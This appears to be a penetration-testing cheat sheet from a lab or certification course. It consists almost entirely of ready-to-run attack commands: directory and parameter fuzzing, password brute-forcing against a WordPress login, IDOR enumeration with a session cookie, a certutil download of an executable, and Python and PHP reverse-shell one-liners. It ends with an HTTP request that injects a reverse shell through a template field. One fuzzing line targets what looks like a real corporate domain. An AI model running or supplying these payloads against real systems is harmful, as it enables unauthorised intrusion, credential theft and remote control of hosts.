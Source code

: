 ### NMAP
nmap -p80 --script=http-enum 172.16.80.1

nmap -p80 --script=http-methods --script-args http-methods.url-path='/wp-includes/' $IP

nmap -p80 -sV --script http-wordpress-enum offsecwp

### CEWL

sudo cewl -d 2 -m 5 -w ourWordlist.txt www.MegaCorpOne.com

ls -sa /usr/bin | sed 's/[0-9]*//g' | sed -r 's/\s+//g' |sort -u > $HOME/binaries-wordlist.txt

### GOBUSTER


gobuster dir -u $URL -w /usr/share/wordlists/dirb/common.txt -t 5 -b 301

gobuster dns -d megacorpone.com -w /usr/share/seclists/Discovery/DNS/subdomains-top1million-110000.txt -t 30

### CERTUTIL

certutil.exe -urlcache -f http://10.0.0.5/40564.exe bad.exe


### HAKRAWLER

sudo apt-get install -y hakrawler
which hakrawler

echo "https://www.megacorpone.com/" > urls.txt
cat urls.txt |./hakrawler


### WFUZZ

#### Discover files:

export URL="http://offsecwp:80/FUZZ"
echo $URL

wfuzz -c -z file,/usr/share/seclists/Discovery/Web-Content/raft-medium-files.txt --hc 301,404,403 "$URL"

#### Discover Directories:

export URL="http://offsecwp:80/FUZZ/"
wfuzz -c -z file,/usr/share/seclists/Discovery/Web-Content/raft-medium-directories.txt --hc 404,403,301 "$URL"

wfuzz -c -z file,/usr/share/seclists/Discovery/Web-Content/raft-medium-directories.txt --hc 404,403 -f ./ad-wfuzz.txt,csv https://adselfserviceplus.dxc-ap.com/FUZZ

#### Parameter Discovery:

export URL="http://offsecwp:80/index.php?FUZZ=data"
wfuzz -c -z file,/usr/share/seclists/Discovery/Web-Content/burp-parameter-names.txt --hc 404,301 "$URL"

#### Fuzzing Parameter Values:

wfuzz -c -z file,/usr/share/seclists/Usernames/cirt-default-usernames.txt --hc 404,301 http://offsecwp:80/index.php?fpv=FUZZ

One might need to adjust excluded response code.

wfuzz -c -z file,/usr/share/seclists/Fuzzing/XSS/XSS-BruteLogic.txt  --hh 0  http://offsecwp:80/index.php?xss=FUZZ


#### Fuzzing POST Data:

wfuzz -c -z file,/usr/share/seclists/Passwords/xato-net-10-million-passwords-100000.txt --hc 404 -d "log=admin&pwd=FUZZ" http://offsecwp:80/wp-login.php

export URL="http://offsecwp:80/wp-login.php"

wfuzz -c -z file,/usr/share/seclists/Passwords/xato-net-10-million-passwords-100000.txt --hc 404 -d "log=admin&pwd=FUZZ" --hh 7201 "$URL"

wfuzz -c -z file,/usr/share/seclists/Fuzzing/5-digits-00000-99999.txt --hc 404 --hh 2873 -H "Cookie: PHPSESSID=2a19139a5af3b1e99dd277cfee87bd64" http://idor-sandbox:80/user/?uid=FUZZ

### CURL

curl -s http://idor-sandbox:80/user/?uid=62718 -w '%{size_download}'

curl -s /dev/null http://idor-sandbox:80/user/?uid=91191 -w '%{size_download}' --header "Cookie: PHPSESSID=2a19139a5af3b1e99dd277cfee87bd64"

### SHELLS

#### Python reverse shell:

python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.0.0.1",80));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn("/bin/bash")'

#### PHP Reverse Shell:

php -r '$sock=fsockopen("10.0.0.1",80);exec("/bin/sh -i <&3 >&3 2>&3");'

php -r '$sock=fsockopen("10.0.0.1",80);shell_exec("/bin/sh -i <&3 >&3 2>&3");'

php -r '$sock=fsockopen("10.0.0.1",80);system("/bin/sh -i <&3 >&3 2>&3");'

php -r '$sock=fsockopen("10.0.0.1",80);passthru("/bin/sh -i <&3 >&3 2>&3");'

php -r '$sock=fsockopen("10.0.0.1",80);popen("/bin/sh -i <&3 >&3 2>&3", "r");'




<?php

passthru("python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect((\"192.168.49.194\",80));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn(\"/bin/bash\")'");

?>



POST /api/php HTTP/1.1

Host: 192.168.194.101

User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:91.0) Gecko/20100101 Firefox/91.0

Accept: application/json, text/plain, */*

Accept-Language: en-US,en;q=0.5

Accept-Encoding: gzip, deflate

Content-Type: application/json;charset=utf-8

Content-Length: 285

Origin: http://192.168.194.101

Connection: close

Referer: http://192.168.194.101/


{"template":"\n\npassthru(\"python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect((\\\"192.168.49.194\\\",80));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn(\\\"/bin/bash\\\")'\");\n\n","vars":{}}


